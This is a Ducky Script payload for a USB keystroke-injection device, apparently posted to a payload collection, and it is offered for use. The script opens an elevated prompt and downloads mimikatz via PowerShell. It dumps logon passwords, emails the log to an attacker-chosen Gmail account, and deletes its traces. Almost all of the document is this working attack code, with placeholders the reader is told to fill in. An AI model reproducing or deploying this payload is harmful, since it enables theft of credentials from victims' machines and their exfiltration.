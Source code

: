 This payload:  
1. Downloads appropriate mimikatz version via http (I used dropbox)  
2. Opens a admin prompt  
3. saves mimikatz log to file  
4. emails log via gmail.  


please change these lines to something (keep the single quote):  
'url to 32bit mimikatz.exe'  
'url to 64bit mimikatz.exe'  
'gmailuser', 'gmail password'  
'sending email account'  
'email account to send report'  


Sorry about the wacky delays!  


```
REM Author: Pesce
REM Date: 10/20/2013
REM Note: Thanks to all the help everyone! This is my first attempt, don't be to upset!
REM -------------open command prompt with admin privileges
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
ENTER
DELAY 300
REM -------------download appropriate mimikatz for architecture
STRING powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('http://url to 32bit mimikatz.exe','%TEMP%\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('http://url to 64bit mimikatz.exe','%TEMP%\pw.exe');}
ENTER
DELAY 5000
REM -------------get the passwords and save to c:\pwlog.txt
STRING %TEMP%\pw.exe > c:\pwlog.txt & type pwlog.txt;
ENTER
DELAY 2000
STRING privilege::debug
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 300
STRING del %TEMP%\pw.exe
ENTER
DELAY 300
REM -------------email log via gmail
STRING powershell
ENTER
DELAY 300
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('gmailuser', 'gmail password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'sending email account'
ENTER
STRING $ReportEmail.To.Add('email account to send report')
ENTER
STRING $ReportEmail.Subject = 'Duck Report'
ENTER
STRING $ReportEmail.Body = 'Attached is your duck report.' 
ENTER
STRING $ReportEmail.Attachments.Add('c:\pwlog.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
REM ---------------------delete and end
STRING del c:\pwlog.txt
ENTER
DELAY 300
STRING exit
ENTER
```